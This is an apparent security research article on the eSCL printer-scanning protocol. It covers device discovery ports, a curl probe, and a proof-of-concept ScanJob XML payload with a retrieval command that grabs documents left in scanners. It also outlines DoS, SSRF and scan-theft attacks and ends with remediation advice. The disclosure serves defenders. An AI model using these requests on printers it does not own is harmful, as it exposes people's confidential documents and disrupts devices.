

---
authors:
    - Matej Smycka
date: 08-10-2025
---

# Hacking potential of eSCL protocol in printers

This article explores features of the eSCL protocol and its security implications.

## What is eSCL?

eSCL is a proprietary scanning standard created by Mopria, which made the specification [public](https://mopria.org/spec-download)[^1]. Its aim is to provide "driverless" vendor-neutral scanning for end users[^4].

Many vendors do implement it in their MFPs (Multi-Function Printers) and scanners. These endpoints are hidden and not properly documented, so they are often overlooked.

The other names for eSCL is `AirScan` (Apple). All printers by Apple supporting eSCL are listed [here](https://support.apple.com/en-us/HT201311).

We have not found any sources delving into the security aspects of eSCL, so here are some notes on what we discovered so far.

## How to find eSCL devices

Different vendors use different ports for eSCL. The most common ones are[^2]:

- Most of vendors 80, 443
- Kyocera 9090, 9095, 9091, 9096
- Konica Minolta 8081, 8082
- Toshiba 80, 1080, 443, 10443

We have also observed devices responding both on HTTP and 631 (IPP) ports, so banning only the ports above may not be sufficient.

To see if a device supports eSCL, you can check the following URL:

```bash
curl -k http://<IP_ADDRESS>/eSCL/ScannerCapabilities
```
If the device supports eSCL, you will get status code `200 OK` and an XML response with the scanner capabilities. 

## Protocol overview

eSCL is based on HTTP and XML. The protocol uses SOAP messages to communicate between the client (the computer or mobile device) and the server (the MFP or scanner). The protocol supports various operations:

- `ScannerCapabilities`: Retrieve the capabilities of the scanner, such as supported resolutions, color modes, and document sizes.
- `ScannerStatus`: Retrieve the current status of the scanner.
- `ScannerBufferInfo`: Scan settings validation and estimation.
- `ScanData`: Retrieve the scanned image data.

And finally, the Scan job creation and management:

- `ScanJob(s)`

The `ScanJob` endpoint allows creating a scan job by sending a POST request to the `/eSCL/ScanJob` endpoint with an XML payload that specifies the scan settings. The endpoint is described in more detail in the section 11.4 of the [specification](https://mopria.org/spec-download).

Two modes of the `ScanJob` operation are supported:
- **Pull Scan**: The client initiates the scan and retrieves the scanned data using GET requests to the `/eSCL/ScanJobs/{jobId}/NextDocument` endpoint.
- **Push Scan**: The scanner initiates the scan and sends the scanned data to a URL specified by `pwg:DestinationUri` in the scan settings.

## PoC

*For this demo, Kyocera ECOSYS was used. Specific details may vary according to vendor and model.*

By sending a POST request to the `/eSCL/ScanJob` endpoint, you can create a scan job.
The exact format of the XML payload can be derived from `/eSCL/ScannerCapabilities` response, however its faster to get it from legitimate requests, for example [here](https://github.com/alexpevzner/eSCL-protocol-traces/blob/master/Kyocera-ECOSYS-M2040dn.log).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<scan:ScanSettings xmlns:pwg="http://www.pwg.org/schemas/2010/12/sm" xmlns:scan="http://schemas.hp.com/imaging/escl/2011/05/03">
  <pwg:Version>2.0</pwg:Version>
  <pwg:ScanRegions>
    <pwg:ScanRegion>
      <pwg:ContentRegionUnits>escl:ThreeHundredthsOfInches</pwg:ContentRegionUnits>
      <pwg:XOffset>0</pwg:XOffset>
      <pwg:YOffset>0</pwg:YOffset>
      <pwg:Width>2551</pwg:Width>
      <pwg:Height>3508</pwg:Height>
    </pwg:ScanRegion>
  </pwg:ScanRegions>
  <pwg:InputSource>Platen</pwg:InputSource>
  <scan:ColorMode>RGB24</scan:ColorMode>
  <pwg:DocumentFormat>image/jpeg</pwg:DocumentFormat>
  <scan:XResolution>300</scan:XResolution>
  <scan:YResolution>300</scan:YResolution>
</scan:ScanSettings>
```

This will create a scan job, and the response will contain a URL to retrieve the scanned data:

```
# Example response:
HTTP/1.1 201 Created
Location: http://<IP>:9095/eSCL/ScanJobs/urn:uuid:4509a320-00fe-007f-00ee-0055cf055834

## To retrieve the scanned data:
curl  <LOCATION>/NextDocument -o scan.jpeg
```

This will return the scan of whatever is in the tray at the time, which might be a blank page, or a copy of a document left in the scanner by the last user.

This may seem like not that probable and opportunistic attack, but it is very common for people to forget to remove documents from the scanner after scanning.

You might be able to scan sensitive documents left in the scanner with employee personal information, contracts, etc.

This can lead to **GDPR violations and breach of confidentiality**.

Full PoC code is available [here](https://github.com/matejsmycka/Scanner-eSCL-Document-Download-PoC/blob/main/scan_and_save.py). 

## Security implications

Just from the protocol description, it is clear that there are several areas where malicious actors could exploit the protocol:

- DoS by sending constant requests for scan. Server will serve `503 Service Unavailable` for legitimate users while processing previous requests.
- Ability to exfiltrate sensitive documents if they are physically in the scanner, however the tray might be empty.
- Ability to send POST/PUT requests to arbitrary URLs in Push Scan mode, which can be used to exfiltrate data or perform SSRF attacks.
- Ability to download documents scanned by other users before them by constantly polling the `/eSCL/ScanJobs/{jobId}/NextDocument` endpoint. All `jobId` can be listed in `/eSCL/ScannerStatus` response. This doubles as both DoS for the user and exfiltration of the scanned document (confidentiality breach).
- Information disclosure such as device model, serial number, firmware version, etc. For example, serial number [were used](https://github.com/advisories/GHSA-7q89-r4x7-5664) to generate default admin passwords in Brother printers.



According to Shodan, there are more than 190k devices categorized as printers, many of which likely support eSCL.

This is huge because many organizations have printers with public IP addresses, and eSCL endpoints are often not protected by authentication or encryption.

## Remediation

General recommendation is to never expose hardware IoT devices to the internet, as they are often not designed with security in mind.

Specific recommendations for eSCL:

- Disable eSCL if possible
- Enable authentication if supported (OAuth, Basic Auth, etc.)
- Educate users to not leave sensitive documents in the scanner
- General network security hygiene: firewalls, segmentation, VPNs, etc.


## Warning

Sending malformed requests to printer ports (e.g., 9100/JetDirect) can cause the device to crash, become unresponsive, or print garbage. Take special care and supervise devices when running fuzzers and vulnerability scanners against these ports. Also, it is best to test eSCL against HTTP/HTTPS/IPP services only.

## Resources

- Reverse engineering of eSCL protocol: https://gist.github.com/markosjal/79d03cc4f1fd287016906e7ff6f07136
- Github `sane-airscan`, eSCL driver for linux  https://github.com/alexpevzner/sane-airscan

## References

- [^1] https://wiki.debian.org/eSCL
- [^2] https://support.princh.com/en/the-onboarding-process-1
- [^3] https://github.com/xJonathanLEI/escl-rs
- [^4] https://github.com/alexpevzner/sane-airscan
